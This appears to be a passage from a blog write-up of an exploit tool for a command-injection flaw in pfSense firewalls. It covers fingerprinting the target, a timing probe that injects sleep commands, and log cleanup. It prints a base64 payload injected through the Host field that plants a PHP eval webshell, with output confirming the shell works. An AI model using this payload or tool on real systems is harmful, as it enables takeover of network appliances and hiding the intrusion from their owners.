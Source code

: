 This mode first checks that the target is, in fact, a pfSense appliance by checking for the string "pfSense" in the HTTP response from "GET /".

It then makes a request to the vulnerable endpoint - which should return a Content-Type header of "image/gif" if it is present.

This indicates you should proceed with active checks for the vulnerability.

## Active Check (with exploitation), or "probe"

After you "touch" your target, you should run the "probe" mode to validate it is, in fact, exploitable.

We do this by injecting a "sleep" command, twice. One is for one second, the other is for ten seconds.

If the difference in response times is greater than 6 seconds, this implies heavily that the target is exploitable.

It should be noted, this does leave log entries that are extremely obvious! You will need to run the exploit mode and cleanup mode to fix this!

{% highlight bash %}
$ python3 exploit.py --target https://192.168.0.241 --mode probe
(+) Performing active check. This WILL leave log entries.
(+) Sending first probe request...
(*) First request took 1.045354 seconds
(+) Sending second probe request...
(*) Second response took 10.04766 seconds
(*) Time difference: 9.002306
(+) Looks like its vulnerable. Run '--mode exploit'

{% endhighlight %}

Now that we have covered all that, lets move onto the meat of the matter - exploiting the bug to drop a shell. 

## Dropping a webshell.

One of the issues IH Team found while writing an exploit for this bug, is that `htmlspecialchars` is called on the input, stripping a lot of useful characters. 

Their solution, and what I initially implemented, was to encode some PHP crafted to drop a webshell in base64, avoiding bad characters in the output, decode this using Python's base64 module, and pass it on to the PHP interpreter.


{% highlight bash %}
$ python3 test.py
(+) Using command injection bug to inject webshell
Host: ' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBldmFsKCRfUE9TVFsxMzM3XSk7Pz4nO2Z3cml0ZSgkYSwkdCk7ZmNsb3NlKCAkYSk7Pz4=' | python3.8 -m base64 -d | php; '
None
(+) Checking for our webshell...
(+) Shell works!
True
{% endhighlight &}
